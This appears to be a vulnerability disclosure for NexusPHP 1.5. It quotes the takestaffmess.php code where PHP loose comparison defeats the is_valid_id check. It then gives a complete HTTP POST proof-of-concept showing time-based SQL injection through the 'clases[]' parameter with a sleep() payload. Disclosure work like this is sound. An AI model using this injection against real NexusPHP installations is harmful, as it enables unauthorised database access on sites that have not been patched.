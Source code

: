 # by burpheart


Need get the administrator's identity to complete the attack.

#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/xiaomlove/nexusphp

##  Vulnerability details

#### takestaffmess.php:line 16

```	
$updateset = $_POST['clases'];
if (is_array($updateset)) {
	foreach ($updateset as $class) {
		if (!is_valid_id($class) && $class != 0)
			stderr("Error","Invalid Class");
	}
}else{
	if (!is_valid_id($updateset) && $updateset != 0)
		stderr("Error","Invalid Class");
}
$subject = trim($_POST['subject']);
$query = sql_query("SELECT id FROM users WHERE class IN (".implode(",", $updateset).")");
```
Although the source code uses the is_valid_id function to check the contents of the clases but because of the php type conversion when the class is non-numeric when compared to zero will get an equal result and thus is_valid_id is invalid.
#### exploit:
```
POST /takestaffmess.php HTTP/1.1
Host: localhost
Cookie: administrator_cookies
Content-Length: 66
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1
```

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 2 seconds  

clases[]=sleep(0)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 0 seconds  
